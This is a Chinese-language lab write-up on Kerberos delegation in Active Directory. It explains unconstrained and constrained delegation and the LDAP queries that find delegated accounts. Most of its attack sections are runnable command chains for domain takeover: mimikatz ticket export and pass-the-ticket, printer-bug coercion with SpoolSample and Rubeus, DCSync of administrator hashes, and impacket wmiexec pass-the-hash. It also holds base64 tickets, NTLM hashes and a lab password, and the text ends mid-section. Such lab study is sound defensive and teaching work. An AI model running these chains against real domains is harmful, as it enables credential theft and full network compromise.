





# 前言

在学习委派之前，先来了解一下域中的几种账户

**域用户账户**（Domain User Account）：

- **定义**：域用户账户是为企业或组织中的个体用户分配的账户。这种账户在企业内部的Active Directory（AD）等域控制系统中进行管理。
- **用途**：用于访问企业网络资源，如文件服务器、打印机、数据库等。通过域用户账户，企业可以集中管理用户的身份验证和权限控制。
- **特点**：用户可以在网络中的任意计算机上使用相同的凭据登录并访问相应的网络资源。

**机器账户**（Machine Account）：

- **定义**：机器账户是为每台计算机（服务器或客户端）分配的账户。每台加入域的计算机都有一个唯一的机器账户。
- **用途**：用于在域环境中标识和验证计算机。域控制器通过机器账户确保只有受信任的设备能够加入并通信。
- **特点**：机器账户通常由域控制器自动创建和管理，账户密码也会定期自动更新。机器账户结尾是`$`

**服务账户**（Service Account）：

- **定义**：服务账户是专门为运行系统服务、应用程序或任务而创建的账户，而不是为实际用户或计算机创建的账户。
- **用途**：用于运行后台服务或任务，如数据库服务、Web服务器、定时任务等。服务账户可以配置特定的权限，以确保只有所需的资源能够被访问。
- **特点**：服务账户通常有较高权限，但应当严格限制其访问权限，避免被滥用或遭到攻击


在域委派中，能够被委派的用户只能是服务账号或者机器账号。

- 机器账户：活动目录中的`Computers`组内的计算机，也被称为机器账号；
- 服务账号：域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来加入域内，例如，`SQLServer`，`MYSQL`等，除此之外域用户通过注册`SPN`也能成为服务账号。

# kerberos大致认证流程

当 Client 想要访问 Server 上的某个服务时,需要先向 AS 证明自己的身份,验证通过后AS会发放的一个TGT,随后Client再次向TGS证明自己的身份,验证通过后TGS会发放一个ST,最后Client向 Server Service 发起认证请求,这个过程分为三块：


协议中的名词缩写解释如下：

- AS (Authentication Service): 认证服务器
- TGS (Ticket Granting Service): 票据授予服务器
- KDC (Key Distribution Center): 密钥分发中心
- TGT (Ticket Granting Ticket): 票据授权票据，或者说：票据的票据
- ST (Server Ticket): 服务票据

# 委派

委派（Delegation）是kerberos相对于NTLM认证独有的特性，指的是A可以让B**“代理”**自己去访问C服务。

域中A使用Kerberos身份验证访问域中的服务B，而B再利用A的身份去请求域中的服务C，因为用的是A的身份，所以只有A有权限访问C的时候，委派才能成功。

委派主要分为三种：

- 非约束委派（`Unconstrained Delegation`，`UD`）：非约束委派是指用户账户将自身的`TGT`转发给服务账户使用；
- 约束委派（`Constrained Delegation`，`CD`）：约束委派通过`S4U2Self`和`S4U2Proxy`两个扩展协议限制服务账户只能访问指定服务资源；
- 基于资源的约束委派（`Resource Based Constrained Delegation`，`RBCD`）：基于资源的约束委派就是委派的管理移交给服务资源进行控制，其余和约束性委派基本相同。

## 非约束性委派

在非约束性委派下，User会将从KDC获取的TGT连同ST一起发给访问的服务，因为拿到了User的TGT，服务1可以通过该TGT向KDC申请ST访问域内的其他服务，并且用的是User的身份。

但是怎么才知道是非约束性委派呢，假如服务A的`服务账号`B被设置为了非约束委派（就是域内的服务账号），用户C通过kerberos认证访问服务A的时候，KDC会检查服务账号B的属性，发现是非约束性委派后，C会发送TGT给服务A，KDC会将用户C的TGT存在TGS中，这样B在验证TGS的时候同时获取的了用户C的TGT，从而可以模拟用户 A 访问`任意`服务。

当 user 访问 service1 时会将 user 的 TGT 发送给 service1 并保存在内存中以备下次重⽤，然后 service1 就可以利⽤这张 TGT 以 user 的身份去访问域内的任何服务（任何服务是指 user 能访问的服务）

也即是说，当域内某个用户被设置为非约束性委派的时候，如果域管访问了这个账户，那么域管的TGT就会存储在内存中，我们可以导出，然后利用ptt导入票据，模拟域管访问任意服务

```
在这个过程中的TGT转发机制，没有限制Service1对TGT的使用，也就是说Service可以通过TGT来请求任意服务
```

另外一个介绍：（感觉这种说法更清楚）

> 自Windows2000开始，微软添加了委派功能。域委派是一种应用模式，指的是将域内用户的权限委派给服务账号，使得服务账号能以用户的权限在域内展开活动。简单来介绍就是用户A访问服务B，但是访问过程中需要访问服务C，于是B就使用A提供的TGT委派访问C。
>
> 非约束性委派(Unconstrained Delegation)：服务账号可以请求得到域内用户的TGT，服务账号使用该TGT模拟域内用户访问任意服务。被配置为非约束委托的系统将把TGT（Ticket Granting Ticket）存储到LSASS内存中，以便使用户能够访问终端资源。非约束委派的设置需要SeEnableDelegation权限，一般为管理员具有此权限



```
1.用户通过发送KRB_AS_REQ消息请求可转发 TGT（forwardable TGT，为了方便我们称为TGT1）。

2.KDC在KRB_AS_REP消息中返回TGT1。

3.用户再通过TGT1向KDC请求转发TGT（forwarded TGT，我们称为TGT2）。

4.在KRB_TGS_REP消息中返回转发TGT2。

5.用户使用TGT1向KDC中的TGS申请访问Service1的ST（Service Ticket）。

6.TGS返回给用户一个ST。

7.用户发送KRB_AP_REQ请求至Service1，这个请求中包含了TGT1和ST、TGT2、TGT2的SessionKey。

8.Service1使用用户的TGT2通过KRB_TGS_REQ发送给KDC，以用户的名义请求能够访问Service2的票据。

9.KDC在KRB_TGS_REP消息中返回Service2到Service1的票据。

10.Service1以用户的名义向Service2发送KRB_AP_REQ请求。

11.Service2响应步骤10中Service1的请求。

12.Service1响应步骤7中用户的请求。

13.在这个过程中的TGT转发机制，没有限制Service1对TGT2的使用，也就是说Service1可以通过TGT2来请求任意服务。

14.KDC返回步骤13中请求的票据。

15和16即为Service1通过模拟用户来访问其他Service
```

### 环境搭建

```
域名: town.domain
域控: 
    操作系统: Windows Server 2012 R2
    主机名: DC
    IP: 192.168.1.10
域内服务器:
    操作系统: win10
    主机名: win10-test
    IP: 192.168.182.133，192.168.1.30
攻击机:
    操作系统: win10
```

机器账户的非约束性委派如下



服务账户的的非约束性委派设置如下

先创建一个普通域用户，然后注册`SPN`成为服务账号


普通域用户是没有委派设置的，需要服务账户才行，这里给test用户注册spn

```
setspn -U -A priv/delegateuser.town.domain delegateuser
```

`-U` 标志用于更新 SPN 记录，`-A` 标志用于添加新的 SPN 记录。在这个命令中，`priv/delegateuser.town.domain` 是要添加或更新的 SPN，而 `many` 是与 SPN 相关的账户或用户。这条命令的含义是要为用户 `delegateuser` 添加或更新 SPN `priv/delegateuser.town.domain`。


添加完后可以用`setspn -l`看看是不是注册成功


此时delegateuser服务账户有了委派选项，设置为非约束性委派


### 探测方法

用AdFind查找非约束性委派用户

```
# 查询域内非约束性委派的计算机
AdFind.exe -b "DC=town,DC=domain" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn distinguishedName

# 查询非约束性委派的服务账号
AdFind.exe -b "DC=town,DC=domain" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```


`PowerView`来探测是否存在非约束委派

```
powershell-import PowerView.ps1
powershell Get-NetComputer –unconstrained | select dnshostname, samaccountname
```


### 攻击思路

#### 构造服务账户票据（错误）

这一部分是错误的，卡了很久才发现是错误的

原文是这样写的

利用条件：

1. 服务账户设置了非约束性委派
2. 已知服务账户的密码口令信息

假设现在已经拿到了delegateuser这个服务账户的密码DawnT0wn@dele，并且这个账户被设置成了非约束性委派

```shell
# 构造服务账户delegateuser的票据
kekeo.exe "tgt::ask /user:delegateuser /domain:town.domain /password:DawnT0wn@dele /ticket:delegateuser.kirbi" "exit"

# 利用刚才伪造的delegateuser票据，向域服务器申请CIFS服务票据
kekeo.exe "Tgs::s4u /tgt:TGT_delegateuser@TOWN.DOMAIN_krbtgt~town.domain@TOWN.DOMAIN.kirbi /user:Administrator@town.domain /service:HOST/DC.town.domain" "exit"


# 使用mimikatz将该票据注入当前的会话中，
mimikatz.exe "kerberos::ptt TGS_Administrator@town.domain@TOWN.DOMAIN_delegateuser@TOWN.DOMAIN.kirbi" "exit"

# 访问目标共享盘
dir \\DC\C$
```

向域服务器申请cifs票据，在这里卡了很久，发现这个方法是不行的，因为在配置非约束性委派的时候，仅采用了kerberos的身份验证协议，在利用s4u向域服务器申请cifs票据的时候，报错了，导致获取不到cifs票据

#### 诱导域管访问

当域管理员使用net use等远程访问命令，模拟域控管理员访问WIN10-TEST主机，设置了非约束性委派的主机可以抓取到域控管理员的TGT。

利用条件：

1. 需要Administrator权限（本地的Administrator权限即可，用于mimikatz导出票据）
2. 域内主机的机器账户开启非约束委派
3. 域控管理员远程访问

当未配置非约束性委派的时候导出票据


并没有administrator的krbtgt票据

当配置非约束性委派后，使用域管访问WIN10-TEST机器账户

```
Enter-PSSession -ComputerName WIN10-TEST
```


抓到了administrator的hash，接下来可以用mimikatz导入

```
kerberos::ptt [0;bcefa]-2-0-60a10000-Administrator@krbtgt-TOWN.DOMAIN.kirbi
```

也可以用impacket直接拿shell

```
python3 ticketConverter.py Administrator@krbtgt-TOWN.DOMAIN.kirbi test.ccache
set KRB5CCNAME=test.ccache
python39 wmiexec.py -k town.domain/administrator@DC.town.domain -no-pass -dc-ip 192.168.1.10
```


但是当我没有配置非约束性委派的时候，这种远程访问还是留下了TGT，包括`dir \\WIN10-TEST\C$`这种方式，留下的就是访问机器的cifs票据


这种方式可利用性都不高，自己能做的都只有导出票据，看是否有administrator的krbtgt票据

#### 结合打印机漏洞

```shell
# 查询打印服务是否开启|域控上查看
sc query spooler

# 使用Rubeus监听来自域控的票据
Rubeus.exe monitor /interval:2 /filteruser:DC$

# 使用SpoolSample工具执行打印机漏洞利用, 进行强制验证, 回连获得域控机器账户的TGT, 需要使用域用户运行SpoolSample, 需要两侧关闭防火墙
runas /user:town.domain\delegateuser powershell
SpoolSample.exe DC WIN10-TEST

# Rubeus监听到票据并导入该票据
Rubeus.exe ptt /ticket:

# mimikatz导出域内用户Hash
mimikatz.exe "lsadump::dcsync /domain:hack.local /user:HACK\Administrator" "exit"
```

打印服务默认是开启的


利用rebeus监控来自DC的票据


已编译的 SpoolSample 下载：https://oss.zjun.info/file/SpoolSample.exe

登录域内账户，然后强制回连

```
runas /user:town.domain\delegateuser powershell
SpoolSample.exe DC WIN10-TEST
```


得到了DC的票据，导入该票据

```
Rubeus.exe ptt /ticket:doIE6jCCBOagAwIBBaEDAgEWooID9zCCA/NhggPvMIID66ADAgEFoQ0bC1RPV04uRE9NQUlOoiAwHqADAgECoRcwFRsGa3JidGd0GwtUT1dOLkRPTUFJTqOCA7EwggOtoAMCARKhAwIBAqKCA58EggObj1fgXkutp9uY2Y/vY7SpCCJA2ITY33dFEZK7OpwzJW/rIDkEst3OY45KUOmKpwh8ZnIh8/loYlAVyWDBy7G/2vXugTDr3T9yH/c0/4GtvdNtQoVhluDA5fMmWv9haxArsDiiaY1alymaWxBmHB3yVl8vpvJrEFgVfN9zIlYdHcK8cy3lt010tQAmENNi9MDPwA5Of2PeYiqOhyyLw+z+KISNdHC3KjYFh4t6WnJp23EnYY64D7cCkevmKUGoNATzNCPDLA/jND3V6tg0duLTkx5rUmF//q2wiP/JYiqniZcZ6YPvfPFbIzWVC8r3Vo7udLJ5xrpIRxYBwbt2asc1RqQ0V5r+W/I7bNwXrO1qewTKho17ONGjuAODna5QvTFifTtwV8lsEsusYS+2iZJgdI8Qtl0TdJOXwAsHTfQZTaznR7YkJ9yusVyMbmzAUo8bczxGJz7Xubmmt3371Ykf86stujCfBiqf1SZcrVmK/0wQzUtL9MyaQW1YsEPdzaHYWg+bhpDr266eiRxQ+oe1gkMlSnOUAoA6y+59roLquU/dXbVa036tz15a7E4QyP/j9rNLHOOXG3b7yaHVThQ1+wHXZlIMzm+bixvWBGP5lIsHF+EO5XZnAbwQAWFyK7Fknrjz6Bghb+xFLxGZFx3DYsOlYISh7IplNG//m8ph+xAP4bKTX1ikacxn4oNdsGnGnYoL//Pjn5t5FsH+/zCjBfJujWF2RPPIjr+02iB8b0M68eJ8/srjhyhVhXIn/ce3ZETtsJ/g1xwerRIsuvHNA3laaeBexRlfYy1Fopabd7SRsjJof24SUwiDZAxDmp27QZKQTBDuPhHBhFwP1SPeSjzo0/q994C2nEyNAtbuefruu6Xx7ApoFiuX667qLK6HbF0eO9Iq5RogWpQL970M+4oJd3vqXEHXMHouFH0jPBgGETd6RBo+opVjFCWNbCTss9SsVQ5VCvitHQr7hNt12mDFDaD9L9oFhMTYrAH4mDjKC/XXglaI4lAG3q2VcgKGFohsUMF4ujwDSYg/x3ohFA8llbfgWHgAM4Z0IZw2fsjXzaAt7Fby0mzK84bu7TjRyD/Hyd5xeBif4gwdlXzracimTWo5inehXsgTegvsLu3Bugnv5UEWrB+yBlr4yQwUKtnz+9GuEif/8WNY4+S7ZKBEQ4FdIVdkd3x43aTIt4LxvFWJXGaU7aV8h6dGC/sxFoH/qBVREJbDuwGjgd4wgdugAwIBAKKB0wSB0H2BzTCByqCBxzCBxDCBwaArMCmgAwIBEqEiBCAhOuVUQPE5rbjh1eMnNTmuFokhVJfTJyb5pT583T1HeKENGwtUT1dOLkRPTUFJTqIQMA6gAwIBAaEHMAUbA0RDJKMHAwUAYKEAAKURGA8yMDI0MDkxODEyNTkyMFqmERgPMjAyNDA5MTgyMjU3NDRapxEYDzIwMjQwOTI1MTI1NzQ0WqgNGwtUT1dOLkRPTUFJTqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLVE9XTi5ET01BSU4=
```


mimikatz导出票据看到DC的krbtgt票据


```shell
mimikatz.exe "kerberos::ptt [0;47638]-2-0-60a10000-DC$@krbtgt-TOWN.DOMAIN.kirbi"
```

导入票据后导出hash

```
lsadump::dcsync /domain:town.domain /user:TOWN\Administrator
```


然后就可以用impact横向移动了

```
python3 wmiexec.py -hashes :6d8665e3909b82e92dda309dd62e163b town.domain/administrator@DC.town.domain -no-pass
```


## 约束性委派

由于非约束性委派可以直接模拟用户访问用户可访问的任意访问，这样做很不安全，微软在`windows2003`中发布了约束委派的功能。

检查到是约束性委派的情况下，`User`不会直接发送`TGT`给服务，而是对发送给`service1`的认证信息做了限制，不允许`service1`代表`User`使用这个`TGT`去访问其他服务。这里包括一组名为`S4U2Self（Service for User to Self）`和`S4U2Proxy（Service for User to Proxy）`的`Kerberos`协议扩展

`S4U2Self`和`S4U2proxy`的请求过程如下



```
1. 用户向service1发出请求。用户已通过身份验证，但service1没有用户的授权数据。通常，这是由于身份验证是通过Kerberos以外的其他方式验证的。
2. 通过S4U2self扩展以用户的名义向KDC请求用于访问service1的ST1。
3. KDC返回给Service1一个用于用户验证Service1的ST1，该ST1可能包含用户的授权数据。
4. service1可以使用ST中的授权数据来满足用户的请求，然后响应用户。
注：尽管S4U2self向service1提供有关用户的信息，但S4U2self不允许service1代表用户发出其他服务的请求，这时候就轮到S4U2proxy发挥作用了
5. 用户向service1发出请求，service1需要以用户身份访问service2上的资源。
6. service1以用户的名义向KDC请求用户访问service2的ST2
7. 如果请求中包含PAC，则KDC通过检查PAC的签名数据来验证PAC，如果PAC有效或不存在，则KDC返回ST2给service1，但存储在ST2的cname和crealm字段中的客户端身份是用户的身份，而不是service1的身份。
8. service1使用ST2以用户的名义向service2发送请求，并判定用户已由KDC进行身份验证。
9. service2响应步骤8的请求。
10. service1响应用户对步骤5中的请求。
```

`S4U2self`协议允许服务代表任意用户请求访问自身服务的ST服务票据
`S4U2proxy`协议允许服务在已取得ST服务票据下代表任意用户获取另一个服务的服务票据
约束委派限制了S4U2proxy协议的请求范围，使得配置了委派属性的服务只能模拟用户身份访问**特定**的其他服务。

配置了约束性委派的账户属性会有如下两个变化：

1. 账户`userAccountControl`属性会被设置为`TRUSTED_TO_AUTH_FOR_DELEGATION`标志位，值为`16781312`
2. 账户的`msDS-AllowedToDelegateTo`属性，添加允许委派的服务

### 环境搭建

这里配置WIN10-TEST机器账户到DC的cifs服务的约束性委派


需要选择使用任何身份验证协议，否则进行约束委派时会报错`KDC_ERR_BADOPTION(13)`

选择"仅信任此用户作为指定服务的委派"，即选择constrained delegation权限(S4U2Proxy)。

该选项下的"使用任何身份验证协议"则是protocol transition权限(S4U2self)。

这里将delegateuser这个服务账户也设置为到DC的cifs服务的约束委派


### 探测方法

```
# AdFind.exe查询约束委派机器账户
AdFind.exe -b "DC=town,DC=domain" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto

# AdFind.exe查询约束委派服务账户
AdFind.exe -b "DC=town,DC=domain" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
```


### 攻击方式

#### 使用机器账户的票据

约束委派的关键就是获取可转发的ST，然后通过S4U2Proxy协议申请委派的服务票据

获取根据约束性委派的执行过程可知，只要**控制配置约束性委派服务的机器，并获得了它的密码**，那么我们就可以劫持这台主机的kerberos请求过程，最终获得任意用户权限的ticket

利用条件：

1. 需要Administrator权限（导出票据）
2. 目标机器账户配置了约束性委派

首先用mimikatz导出所有票据

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
```


使用kekeo工具申请服务票据（S4U2Proxy协议）

```
kekeo.exe "tgs::s4u /tgt:[0;3e7]-2-0-40e10000-WIN10-TEST$@krbtgt-TOWN.DOMAIN.kirbi /user:Administrator@town.domain /service:cifs/DC.town.domain" "exit"
```

这里我导出票据的时候不知道是不是出问题了，在申请cifs服务票据的时候报错了


说加密类型不对，但是域控并没有设置加密类型，是默认的，也可能是`[0;3e7]-2-0-40e10000-WIN10-TEST$@krbtgt-TOWN.DOMAIN.kirbi`票据问题，我看别人的都是`[0;3e7]-2-1-40e10000-WIN10-TEST$@krbtgt-TOWN.DOMAIN.kirbi`

但是在实际环境中还是没什么问题，如果配置了机器账户的约束性委派，可以导出票据，申请对应的服务票据，然后导入


我在另外的地方重新搭建的域环境就得到了`[0;3e7]-2-1-40e10000-WIN10-TEST$@krbtgt-TOWN.DOMAIN.kirbi`票据，在申请到cifs票据后导入即可

```shell
# 导入票据
mimikatz.exe "kerberos::ptt TGS_Administrator@TOWN.DOMAIN@TOWN.DOMAIN_cifs~DC.town.domain@TOWN.DOMAIN.kirbi" "exit"

# 访问
dir \\DC.town.domain\c$
```

#### 使用机器账户hash方式一

与思路一类似，但是这里使用的是Hash值
利用条件：

1. 需要Administrator权限（导入hash）
2. 目标机器账户配置了约束性委派

使用mimikatz获取NTLM Hash值

```
# 使用mimikatz获取机器账户NTLM Hash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

8f5063b5a7f1d026fdf71af771d7ee86
```


使用[Rubeus](https://github.com/GhostPack/Rubeus)申请访问自身的可转发服务票据

```
Rubeus.exe asktgt /user:WIN10-TEST$ /rc4:8f5063b5a7f1d026fdf71af771d7ee86 /domain:town.domain /dc:DC.town.domain /nowrap
```


```shell
# 使用Rubeus通过S4U2Self协议代表域管理员Administrator请求针对域控cifs服务的票据，并注入内存
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/DC.town.domain /dc:DC.town.domain /ptt /ticket:doIE8jCCBO6gAwIBBaEDAgEWooIEBzCCBANhggP/MIID+6ADAgEFoQ0bC1RPV04uRE9NQUlOoiAwHqADAgECoRcwFRsGa3JidGd0Gwt0b3duLmRvbWFpbqOCA8EwggO9oAMCARKhAwIBAqKCA68EggOrnCO90/0K6/DHqcc0rlLGRHdZZ6JjSjpVL1efbAD/9FIUc7b1z6vzSF2hYusPzkFY/HdD9Upb9Co5SgqytDBR86E0Gcjwx76cbs63nJWZTmvrKa9u1BhcmzC1k4CgvRgmX0XXNwpJwyF3TgNEQh0HZpMiGEgDjz4daWkRadw7us+8LxXMzgWrBED4aSMYm6kPLGDu0YUhATzCr8icwqg/imlyX7WXTt9mKdZYoM3eT6vR74id//bksL3Bw3BgrF7DyMjX67pTY9c17JeAHuENJEnDWJaKbP1VfF6pIY5C7G2W9hNq//8MFfBQosUTTzGICaAwB0LfPQz3iuC/jUoc9c24TJ5jz/pLN31loMqBkS7akm0+Ltgl2U4OCquIK/pKRBH7qCSLmokuMmk1ToFE+Tj8teJ5sUXYG0PM/JXwHwLBLP7mMEft5dgScqHBea87rpq/vEcoOG40mlhe4nfxesV48/9Cg8oUgjXfE+O0Od6uRNmOlmAJFksIjD249mTI+uDhogaPOVGrHiMTQ6AVEnyZpslrYuX6ogQ/ctdERYPDN4NZIMa8XDqFCvyj3RU3WFsl1Rb8fZsAMuubxBP9uDy55jWFChYdXvz6oLfLrgLtWqgwH0R9Qct7dHVY9LwWAmuUogj7VVBhoZhsuf7JXPFzpnbL10CeXg5MYPbo1vHrxFgM2XUKIM6BLaD+rQQJx4IYnARx8p5LSuJVWSI4s5j/S051Q9Gp8U8Z7MdKDmtd/pYdd6FcZL9gQQKs3kFuT+u7ypfxVqoYwbBH3lYLeIW+oqg2He8SXne4XPU+uW23+Itv/SEdAR7RKhxl7IeILLilRv8ztYe76GMP1KxMe3ejxf42oFC8KYzZwYl2G7vJdfLPyL8lrjLoX3oPA5sMfk7k/s3gcjjxenI9KhMdlh/HonGRNT5gyL0qHtPm8EoVJvzhn/asNuQGfo+1reqUVmdG9IGD0YF2PnwTyLzJa2uLN/l1pID9TZPBTHuA8mFBVGhWzluGgcD7FtsPhC9R1URDj8Ze+L2ZVHpTpIQf0QSq8rUoiCEzlZYIhQmvXtukwtsHchqkbXIYxmRNljuP3DeJ/qtMqGsnDPgsCHoBcNgHbCHboQCkd8EE8fNAyQ6UsukuqBgeAgxjW6rl2+nF1eygzxVjIkc1IEx6YCwFhMy2zm+lCNXVbGwGindWy9yCYFaKR6269xIoRBVylasBSygT/daeaf2uyGcv3tZYwqr/vAm1sO3dy2Iwo4HWMIHToAMCAQCigcsEgch9gcUwgcKggb8wgbwwgbmgGzAZoAMCARehEgQQnqHouOG+M8qmpvxMYhTzZaENGwtUT1dOLkRPTUFJTqIYMBagAwIBAaEPMA0bC1dJTjEwLVRFU1QkowcDBQBA4QAApREYDzIwMjQxMDA3MTA0NTA1WqYRGA8yMDI0MTAwNzIwNDUwNVqnERgPMjAyNDEwMTQxMDQ1MDVaqA0bC1RPV04uRE9NQUlOqSAwHqADAgECoRcwFRsGa3JidGd0Gwt0b3duLmRvbWFpbg==
```


#### 使用机器账户hash方式二

使用机器账户的Hash值，但这里使用Impacket工具套件中的[getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py)脚本请求服务票据，并利用该脚本通过[wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)工具远程登录
利用条件：

1. 需要Administrator权限
2. 目标机器账户配置了约束性委派

```shell
# 使用mimikatz获取机器账户NTLM Hash
